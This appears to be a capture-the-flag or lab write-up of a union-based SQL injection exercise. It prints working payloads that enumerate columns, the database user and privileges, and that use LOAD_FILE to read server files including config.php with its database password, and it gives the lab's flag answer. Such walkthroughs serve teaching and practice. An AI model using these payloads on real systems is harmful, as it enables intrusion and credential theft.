


## Questions and Solutions

- We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.
	- **dB_pAssw0rd_iS_flag!**


#### Finding the Number of Columns

So, there are 4 columns but column2,3,4 are only displayed. Column1 is not displayed although returned during query.

```mysql
cn' UNION SELECT 1,2,3,4-- '
```

#### Checking Current User

```mysql
cn' UNION SELECT 1, user(), 3, 4-- -
```

We got `root@localhost`. So our user is `root` and hostname is `localhost`.

#### Checking all User Privileges

After checking the user privileges we found that `root` has super admin and FILE privileges. So we can read or load a file and make modifications in the database.

```mysql
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```


#### Loading and Reading the Configuration File

Analyzing the page source code we find that it shows error and cannot load the `config.php`.

```mysql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

Check the below error to better understand. `CTRL+U` to open page source code.



so we need to replace the `include.php` with `config.php`.

```mysql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```



